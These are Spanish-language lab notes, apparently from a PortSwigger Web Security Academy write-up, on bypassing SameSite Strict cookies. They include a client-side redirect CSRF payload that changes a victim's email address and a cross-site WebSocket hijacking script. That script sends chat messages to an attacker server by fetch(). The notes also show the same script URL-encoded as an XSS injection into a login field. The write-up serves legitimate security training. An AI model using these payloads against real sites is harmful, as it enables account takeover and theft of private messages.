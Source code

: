 # Strict bypass

Laboratorio [aquí.](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect)

Se puede eludir esta cookie si existe un gadget en la web que genere una solicitud secundaria en el mismo sitio.

En este caso al realizar un post se hace un redireccionamiento del momento en que se envía el post al blog con un parámetro postid, este parámetro permite inyectar valores al directorio por lo que pasando el directorio vulnerable del change email con valores de correo y submit se puede realizar el ataque, es posible ya que la petición también se puede realizar con GET

```jsx
<script>
 document.location = "https://URL-VULNERABLE/post/comment/confirmation?postId=../my-account/change-email?email=antu%40web-security-academy.net%26submit=1";
</script>
```

### Same site Sibling domain(CSWSH)

Laboratorio [aqui](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)

Script html utilizado.

```jsx
<script>
    var ws = new WebSocket('wss://0ac60050047f30558226d44700ec00dc.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        var message = event.data;
        fetch('https://SERVER-ATACANTE/exploit?message=' + btoa(message));
    };
</script>
```

URLecodeado el script anterior y utilizando un origen permitido por la web podemos llevar a cabo la explotación de un CSRF a través de XSS en un login.

```jsx
<script>
document.location = 'https://URL-VULNERABLE-XSS/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%63%36%30%30%35%30%30%34%37%66%33%30%35%35%38%32%32%36%64%34%34%37%30%30%65%63%30%30%64%63%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%65%6e%74%2e%64%61%74%61%3b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%64%33%30%30%38%35%30%34%61%66%33%30%37%65%38%32%38%62%64%33%61%61%30%31%63%30%30%30%64%64%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6d%65%73%73%61%67%65%3d%27%20%2b%20%62%74%6f%61%28%6d%65%73%73%61%67%65%29%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=test'
</script>
```
